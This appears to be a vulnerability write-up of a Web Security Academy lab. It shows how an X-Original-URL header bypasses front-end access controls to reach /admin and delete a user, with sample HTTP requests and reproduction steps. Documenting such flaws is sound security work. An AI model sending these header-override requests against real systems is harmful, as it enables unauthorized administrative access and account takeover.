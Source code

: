 ## Broken access control can lead to admin account takeover

#### Description
Some applications enforce access controls at the platform layer by restricting access to specific URLs and HTTP methods based on the user's role. For example an application might configure rules like the following:

DENY: POST,` /admin/deleteUser`, managers

This rule denies access to the POST method on the URL `/admin/deleteUser`, for users in the managers group. Various things can go wrong in this situation, leading to access control bypasses.

Some application frameworks support various non-standard HTTP headers that can be used to override the URL in the original request, such as `X-Original-URL` and `X-Rewrite-URL`. If a web site uses rigorous front-end controls to restrict access based on URL, but the application allows the URL to be overridden via a request header, then it might be possible to bypass the access controls using a request like the following:
```
POST / HTTP/1.1
X-Original-URL: /admin/deleteUser
You can see a full HTTP request can sent by an attcaker in-order to exploit the vulnurbility
```
```
GET /delete?username=carlos HTTP/1.1
Host: ac881fc61f2d6d3f80166598000a0060.web-security-academy.net
X-Original-URL: /admin
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac881fc61f2d6d3f80166598000a0060.web-security-academy.net/
Connection: close
Cookie: session=PZEti039Ndjxfya2anDNigFiMWv78pdZ
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

#### Steps to reproduce

1. Try to load `/admin` and observe that you get blocked. 
2. Observe that the response is very plain, suggesting it may originate from a front-end system. 
3. Send the request to Burp Repeater. Change the URL in the request line to `/` and add the HTTP header `X-Original-URL: /invalid`.        Observe that theapplication returns a "not found" response. This indicates that the back-end system is processing the URL from the `X  Original-URL` header. 
4. Change the value of the `X-Original-URL` header to `/admin`. Observe that you can now access the admin page. 
5. To delete the user carlos, add `?username=carlos` to the real query string, and change the `X-Original-URL` path to `/admin/delete`.

#### Proof of concept

Video link https://vimeo.com/xxxxxxx

#### Impact 

**An attacker can bypass the authorization and abuse administrator functionality**
